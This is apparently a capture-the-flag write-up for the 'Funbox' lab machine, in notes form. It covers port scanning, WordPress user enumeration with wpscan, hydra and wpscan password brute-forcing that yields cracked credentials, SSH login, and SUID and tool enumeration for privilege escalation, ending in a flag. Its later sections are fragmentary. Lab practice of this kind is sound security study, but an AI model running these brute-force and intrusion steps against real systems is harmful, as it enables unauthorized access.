



# Funbox :

## 1 Network Mapping :
### 1.1 Live Hosts :
Run :
````bash
nmap -sP 192.168.199.77
````

Return :
````text
Host is up (0.13s latency).
Nmap done: 1 IP address (1 host up) scanned in 0.53 seconds
````

With ARP :
````bash
arping 192.168.199.77
````

**Timeout**

With DNS :
````bash
nmap -sL 192.168.199.77
````

**NONE**

---

### 1.2 Ports identifications :
#### 1.2.1 TCP ports :
Run :
````bash
nmap -sS 192.168.199.77
````

Return :
````text
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
````

Full TCP Scan :
````bash
nmap -sT 192.168.199.77
````

Return :
````text
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
````

All TCP ports :
````bash
nmap -sS -p1-65535 192.168.199.77
````

Return :
````text
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
33060/tcp open  mysqlx
````

---

#### 1.2.2 UDP ports :
Run :
````bash
nmap -sU 192.168.199.77
````

**NONE**

All UDP ports :
````bash
nmap -sU -p1-65535 192.168.199.77
````

**TOO LONG**

---

### 1.3 Banner grabbing :
#### 1.3.1 Manual :
Run :
````bash
nc 192.168.199.77 21
220 ProFTPD Server (Debian) [192.168.199.77]

nc 192.168.199.77 22
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4

nc 192.168.199.77 80
Apache/2.4.41 (Ubuntu) Server at 127.0.1.1 Port 80

nc 192.168.199.77 33060
# None
````

---

#### 1.3.2 Automatic :
Run :
````bash
nmap -sV -p21,22,80,33060 192.168.199.77
````

Return :
````bash
PORT      STATE SERVICE VERSION
21/tcp    open  ftp?
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?
````

Check with amap :
````bash
amap 192.168.199.77 21
#NONE

amap 192.168.199.77 33060
#NONE
````

---

### 1.4 OS identification :
#### 1.4.1 Automatic :
Run :
````bash
nmap -O 192.168.199.77
````

Return :
````text
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/12%OT=21%CT=1%CU=33838%PV=Y%DS=2%DC=I%G=Y%TM=5FD515
OS:C0%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%II=I%TS=A)SEQ(SP=
OS:106%GCD=1%ISR=10B%TI=Z%TS=A)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT
OS:11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=FE88%W2=FE88%W3=F
OS:E88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M506NNSNW7%CC=Y%Q
OS:=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)U1(R=N)IE(R=Y%DFI=N%T=40%CD=S)
````

---

#### 1.4.2 Manual :
Run :
````bash
p0f -i tun0
nc 192.168.199.77 80
````

Return :
````text
.-[ 192.168.49.199/60986 -> 192.168.199.77/80 (syn+ack) ]-
|
| server   = 192.168.199.77/80
| os       = ???
| dist     = 1
| params   = none
| raw_sig  = 4:63+1:0:1286:mss*45,7:mss,sok,ts,nop,ws:df:0
|
`----
````

---

### 1.5 Conclusion :
Network :

* IP : 192.168.199.77
* MAC : ?
* Same subnet : NO
* DNS record : NO

Ports :

* 21 	; FTP 	; open ; ?														; TCP
* 22 	; SSH 	; open ; OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)	; TCP 
* 80 	; HTTP 	; open ; Apache httpd 2.4.41 ((Ubuntu))							; TCP
* 33060 ; MySQL ; open ; ?														; TCP

OS :

* OS : Ubuntu
* Kernel  : 4:63+1:0:1286

---

## 2 Vulnerability Assesment :
### 2.1 Searchsploit :
Run :
````bash
searchsploit OpenSSH 8.2

searchsploit Apache 2.4.41
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                                                                                                                
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                                                                                                              
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                                                                                                                            
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow                                                                                                           
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                                                                                     
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                                                                     
Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal                                                                                                            
Apache Tomcat < 5.5.17 - Remote Directory Listing                                                                                                                              
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                                                                                                                            
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)                                                                                                                      
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (1)                                                                   
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                                                   
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                                                                                                                   
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution
````

---

### 2.2 Vulnerability scan :
Run :
````bash
nmap -sV --script=exploit,vuln,auth,default -p 21,22,80,33060 -oX /tmp/Funbox.xml 192.168.199.77
xsltproc /tmp/Funbox.xml -o /tmp/Funbox.html
````

Port 21 :


Port 22 :


Port 80 :


Port 33060 :


---

### 2.3 Ports Enumeration :
#### 2.3.1 Port 21 :
Run :
````bash
nc 192.168.199.77 21
HELP
# NONE
````

Try login :
````bash
ftp 192.168.199.77
````

---

#### 2.3.2 Port 22 :


---

#### 2.3.2 Port 80 :
Run :
````bash
nikto -h http://192.168.229.77/
+ Server: Apache/2.4.41 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-redirect-by' found, with contents: WordPress
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Root page / redirects to: http://funbox.fritz.box/
+ Uncommon header 'link' found, with multiple values: (<http://funbox.fritz.box/index.php/wp-json/>; rel="https://api.w.org/",<http://funbox.fritz.box/>; rel=shortlink,)
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Entry '/secret/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Multiple index files found: /default.htm, /index.php
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3092: /secret/: This might be interesting...
+ /wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ Cookie wordpress_test_cookie created without the httponly flag
+ OSVDB-3268: /wp-content/uploads/: Directory indexing found.
+ /wp-content/uploads/: Wordpress uploads directory is browsable. This may reveal sensitive information
+ /wp-login.php: Wordpress login found
````

Run :
````bash
dirb http://192.168.229.77/
+ http://192.168.229.77/index.php (CODE:200|SIZE:61294)
+ http://192.168.229.77/robots.txt (CODE:200|SIZE:19)
==> DIRECTORY: http://192.168.229.77/secret/
+ http://192.168.229.77/server-status (CODE:403|SIZE:279)
==> DIRECTORY: http://192.168.229.77/wp-admin/
==> DIRECTORY: http://192.168.229.77/wp-content/
==> DIRECTORY: http://192.168.229.77/wp-includes/
+ http://192.168.229.77/xmlrpc.php (CODE:405|SIZE:42)
````

Run :
````bash
wapiti -u http://192.168.229.77/
Injection SQL	0
Injection SQL en aveugle	0
Divulgation de fichier	0
Cross Site Scripting	0
Injection CRLF	0
Exécution de commandes	0
Contournement de htaccess	0
Copie de sauvegarde	0
Fichier potentiellement dangereux	0
Server Side Request Forgery	0
Open Redirect	0
XXE	0
Erreur interne au serveur	0
Consommation anormale de ressource	0
````

Run :
````bash
whatweb -a 4 http://192.168.229.77/
http://192.168.229.77 [301 Moved Permanently] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[192.168.229.77], RedirectLocation[http://funbox.fritz.box/], UncommonHeaders[x-redirect-by], WordPress
````

The service redirect always to **funbox.fritz.box** add host in host file :
````bash
192.168.229.77  funbox.fritz.box
````

We have wordpress install, use wpscan :
````bash
wpscan --url http://funbox.fritz.box
[+] URL: http://funbox.fritz.box/ [192.168.229.77]
[+] Started: Sun Dec 13 15:33:36 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://funbox.fritz.box/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://funbox.fritz.box/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://funbox.fritz.box/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://funbox.fritz.box/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://funbox.fritz.box/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://funbox.fritz.box/index.php/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://funbox.fritz.box/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.4.2</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://funbox.fritz.box/wp-content/themes/twentyseventeen/
 | Last Updated: 2020-12-09T00:00:00.000Z
 | Readme: http://funbox.fritz.box/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.5
 | Style URL: http://funbox.fritz.box/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://funbox.fritz.box/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===============================================================================> (22 / 22) 100.00% Time: 00:00:00

[i] No Config Backups Found.
````

Find username :
````bash
wpscan --url http://funbox.fritz.box -e u
[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://funbox.fritz.box/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] joe
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
````

---

#### 2.3.2 Port 33060 :
Run :
````bash
hydra -l root -s 33060 -P /usr/share/wordlists/fasttrack.txt 192.168.2.66 mysql -Vv
````


ssh funny@192.168.229.77 -i id_rsa


wpscan --url http://funbox.fritz.box/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin,joe
 | Username: joe, Password: 12345
 | Username: admin, Password: iubire


 shh joe@192.168.
 12345


 No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 20.04 LTS
Release:        20.04
Codename:       focal


/usr/bin/nc
/usr/bin/netcat
/usr/bin/wget
/usr/bin/curl
/usr/bin/ping
/usr/bin/base64
/usr/bin/python
/usr/bin/python2
/usr/bin/python3
/usr/bin/python2.7
/usr/bin/perl
/usr/bin/php
/usr/bin/sudo
/snap/bin/lxc


root           1  0.0  1.1 104188 11280 ?        Ss   14:20   0:01 /sbin/init maybe-ubiquity


/usr/bin/sudo
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/snap/core18/1880/bin/mount
/snap/core18/1880/bin/ping
/snap/core18/1880/bin/su
/snap/core18/1880/bin/umount
find: ‘/snap/core18/1880/etc/ssl/private’: Permission denied
find: ‘/snap/core18/1880/root’: Permission denied
/snap/core18/1880/usr/bin/chfn
/snap/core18/1880/usr/bin/chsh
/snap/core18/1880/usr/bin/gpasswd
/snap/core18/1880/usr/bin/newgrp
/snap/core18/1880/usr/bin/passwd
/snap/core18/1880/usr/bin/sudo
/snap/core18/1880/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1880/usr/lib/openssh/ssh-keysign
find: ‘/snap/core18/1880/var/cache/ldconfig’: Permission denied
find: ‘/snap/core18/1880/var/lib/private’: Permission denied
find: ‘/snap/core18/1880/var/lib/snapd/void’: Permission denied
/snap/core18/1885/bin/mount
/snap/core18/1885/bin/ping
/snap/core18/1885/bin/su
/snap/core18/1885/bin/umount
find: ‘/snap/core18/1885/etc/ssl/private’: Permission denied
find: ‘/snap/core18/1885/root’: Permission denied
/snap/core18/1885/usr/bin/chfn
/snap/core18/1885/usr/bin/chsh
/snap/core18/1885/usr/bin/gpasswd
/snap/core18/1885/usr/bin/newgrp
/snap/core18/1885/usr/bin/passwd
/snap/core18/1885/usr/bin/sudo
/snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1885/usr/lib/openssh/ssh-keysign
find: ‘/snap/core18/1885/var/cache/ldconfig’: Permission denied
find: ‘/snap/core18/1885/var/lib/private’: Permission denied
find: ‘/snap/core18/1885/var/lib/snapd/void’: Permission denied
/snap/snapd/8790/usr/lib/snapd/snap-confine
/snap/snapd/8542/usr/lib/snapd/snap-confine


Flag : d7386422cc7e48685aa5faa600e08a16